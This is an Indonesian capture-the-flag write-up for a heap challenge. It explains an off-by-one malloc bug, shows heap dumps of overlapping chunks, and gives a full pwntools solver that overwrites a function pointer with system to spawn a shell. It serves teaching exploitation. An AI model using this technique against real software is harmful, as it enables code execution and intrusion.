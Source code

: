 # Coloring (0 solves)

Challenge ini merupakan pengenalan dari heap exploitation. Seperti chall-chall pwn saya yang lain, diberikan source code dari program yang akan dieksploitasi sehingga kita tidak perlu kesulitan untuk memahami apa yang program ini lakukan dan bisa fokus di pencarian vulnerability dan eksploitasi.

Singkat cerita, vulnerability di program ini terdapat pada saat melakukan create text, tepatnya pada size yang dialokasikan.
```c
    texts[index] = malloc(sizeof(color_text) + size - 1);
```
>> Jika anda penasaran kenapa ditambah `sizeof(color_text)`, silahkan baca mengenai [Flexible Array Member](https://en.wikipedia.org/wiki/Flexible_array_member)

Terlihat bahwa size yang dialokasikan dikurangi 1 byte. Hal ini merupakan sebuah bug karena selanjutnya program akan meminta user untuk mengisi buffer dengan string berukuran `size`
```c
    printf("Text: ");
    int n = read(STDIN_FILENO, texts[index]->text, size);
```
Konsekuensinya, terdapat buffer overflow sebesar 1 byte.

Lalu apa yang akan terjadi?

Ayo kita coba alokasikan 2 buah text berukuran 20 dan lihat seperti apa strukturnya di dalam heap arena

```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ | 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000031 | ........1....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00020|+0x002b0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052c0|+0x00000|+0x002c0: 0x0000000000000000 0x0000000000000031 | ........1....... | 
0x4052d0|+0x00010|+0x002d0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052e0|+0x00020|+0x002e0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000 0x0000000000020d11 | ................ |  <-  top
0x405300|+0x00010|+0x00300: 0x0000000000000000 0x0000000000000000 | ................ | 
* 8399 lines, 0x20cf0 bytes
```
Kedua text yang kita buat disimpan di dalam dua buah chunk yang berdampingan, yaitu
```
                                               0x0000000000000031 | ........1....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00020|+0x002b0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052c0|+0x00000|+0x002c0: 0x0000000000000000
```
dan 
```
                                               0x0000000000000031 | ........1....... | 
0x4052d0|+0x00010|+0x002d0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052e0|+0x00020|+0x002e0: 0x0000000000000000 0x0000000000000000 | ................ | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000
```
`0x0000000000000031` merupakan size dari chunk, `0x00000000004011ef` adalah value dari field color_printer, dan data selanjutnya adalah text yang kita input.

Perhatikan bahwa terdapat size dari chunk tepat setelah text buffer. Ini artinya, kita bisa memanfaatkan buffer overfow sebesar 1 byte tersebut untuk mengoverwrite size dari chunk sebelahnya. Namun, untuk melakukan ini kita harus memilih size yang tepat, yaitu memenuhi syarat total_size >= 0x18 dan total_size & 0xf == 8, dengan total_size = sizeof(color_text) + size - 1. Karena sizeof(color_text) = 8, maka total_size = size + 7. Salah satu size yang memenuhi adalah 17, yang berarti total_size = 24 = 0x18.

Ayo kita coba alokasikan 2 buah text lagi berukuran 17, tetapi isi text kedua sampai penuh (17 karakter)

```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ |                 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00000|+0x002b0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052c0|+0x00010|+0x002c0: 0x00000000004011c6 0x4141414141414141 | ..@.....AAAAAAAA | 
[!] Corrupted (addr + chunk.size > sect.page_end)
0x4052d0|+0x00000|+0x002d0: 0x4141414141414141 0x0000000000020d41 | AAAAAAAAA....... |  <-  top
```
Terlihat bahwa terdapat kerusakan pada top chunk karena 1 byte dari field size-nya teroverwrite dengan 'A'. Terbukti bahwa kita bisa mengoverwrite size dari next chunk.

Hal yang bisa kita lakukan dengan hal tersebut yaitu membuat sebuah situasi dimana tedapat 2 chunk yang saling beririsan sehingga kita bisa mengoverwrite data dari salah satu chunk. Untuk mencapai situasi tersebut, perhatikan struktur heap setelah membuat 3 buah text.
```
0x405000|+0x00000|+0x00000: 0x0000000000000000 0x0000000000000291 | ................ | 
0x405010|+0x00010|+0x00010: 0x0000000000000000 0x0000000000000000 | ................ | 
* 39 lines, 0x270 bytes
0x405290|+0x00000|+0x00290: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052a0|+0x00010|+0x002a0: 0x00000000004011c6 0x0000312054584554 | ..@.....TEXT 1.. | 
0x4052b0|+0x00000|+0x002b0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052c0|+0x00010|+0x002c0: 0x00000000004011c6 0x0000322054584554 | ..@.....TEXT 2.. | 
0x4052d0|+0x00000|+0x002d0: 0x0000000000000000 0x0000000000000021 | ........!....... | 
0x4052e0|+0x00010|+0x002e0: 0x00000000004011c6 0x0000332054584554 | ..@.....TEXT 3.. | 
0x4052f0|+0x00000|+0x002f0: 0x0000000000000000 0x0000000000020d11 | ................ |  <-  top
0x405300|+0x00010|+0x00300: 0x0000000000000000 0x0000000000000000 | ................ | 
* 8399 lines, 0x20cf0 bytes
```
Jika kita mengoverwrite size dari chunk kedua menjadi 0x41, maka kita bisa membuat chunk 2 dan chunk 3 menjadi saling beririsan. Alhasil kita bisa mengoverwrite data yang terdapat pada chunk 3. Target yang akan kita overwrite adalah field color_printer yang merupakan sebuah function pointer yang akan dipanggil di dalam fungsi print_text. Kita akan mengoverwrite-nya menjadi fungsi system, sehingga jika kita memiliki text "/bin/sh", maka system("/bin/sh") akan terpanggil ketika kita ingin melakukan print text tersebut.

Full solver:
```python
#!/usr/bin/env python3

import ctypes

from pwn import *

context.terminal = "kitty @launch --location=split --cwd=current".split()


def start(argv=[], *a, **kw):
    if args.LOCAL:
        argv = argv if argv else [exe.path]
        if args.GDB:
            return gdb.debug(argv, gdbscript=gdbscript, *a, **kw)
        return process(argv, *a, **kw)
    return remote(args.HOST or host, args.PORT or port, *a, **kw)


def safe_flat(*args, unsafe_chars=b"\n", **kwargs):
    p = flat(args, **kwargs)
    if any(c in unsafe_chars for c in p):
        raise ValueError("unsafe:", p)
    return p


def create_text(index, size, color, text):
    io.sendlineafter(b">> ", b"1")
    io.sendlineafter(b"(1-16): ", str(index).encode())
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendlineafter(b"Color: ", str(color).encode())
    io.sendafter(b"Text: ", text)


def print_text(index):
    io.sendlineafter(b">> ", b"2")
    io.sendlineafter(b"(1-16): ", str(index).encode())


def delete_text(index):
    io.sendlineafter(b">> ", b"3")
    io.sendlineafter(b"(1-16): ", str(index).encode())


gdbscript = """
c
"""
host, port = args.HOST or "localhost", args.PORT or 16000
exe = context.binary = ELF(args.EXE or "../src/chall", False)

io = start()

pause()
create_text(1, 17, 1, b"overflow me\n")
create_text(2, 17, 1, b"size\n")
create_text(3, 17, 1, b"printer\n")

delete_text(1)

create_text(1, 17, 1, safe_flat({16: b"\x41"}))

delete_text(2)

create_text(2, 49, 1, safe_flat({16: [0x21, exe.sym["system"], b"/bin/sh\0"]}))

print_text(3)

io.interactive()

```

PS: urutan operasi yang dilakukan sangat penting. Silahkan anda debug sendiri untuk mencari tahu kenapa saya memilih urutan operasi seperti di atas
